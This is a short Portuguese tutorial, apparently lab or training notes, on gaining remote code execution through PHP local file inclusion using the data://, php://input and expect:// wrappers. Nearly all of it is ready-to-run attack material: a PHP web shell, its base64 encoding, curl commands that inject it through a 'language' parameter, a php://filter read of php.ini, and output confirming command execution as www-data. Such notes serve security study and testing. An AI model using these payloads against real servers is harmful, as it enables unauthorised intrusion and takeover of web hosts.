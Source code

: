# Wrappers PHP e Exploração de Vulnerabilidades LFI

### Verificação de Configurações PHP

Antes de usar wrappers PHP, verifique se `allow_url_include` está habilitado:
```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" | base64 -d | grep allow_url_include
```

Execução Remota de Código com Wrappers
Wrapper data
Codifique um web shell em base64 e passe-o via URL:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
Resultado: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
### Execute o comando codificado via URL:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
<b>Resultado:</b> uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Wrapper input
Envie o web shell como dados POST e passe o comando como parâmetro GET:
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Wrapper expect
Verifique a disponibilidade do expect e use-o para executar comandos:
```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
Resultado: extension=expect

### Execução
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id" | grep uid
```
Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Resumo
Os wrappers PHP data, input, e expect permitem a execução de código remoto via vulnerabilidades LFI, proporcionando diferentes métodos para obter controle sobre o servidor back-end. Verifique a configuração allow_url_include, pois muitos desses ataques dependem dessa configuração estar habilitada.
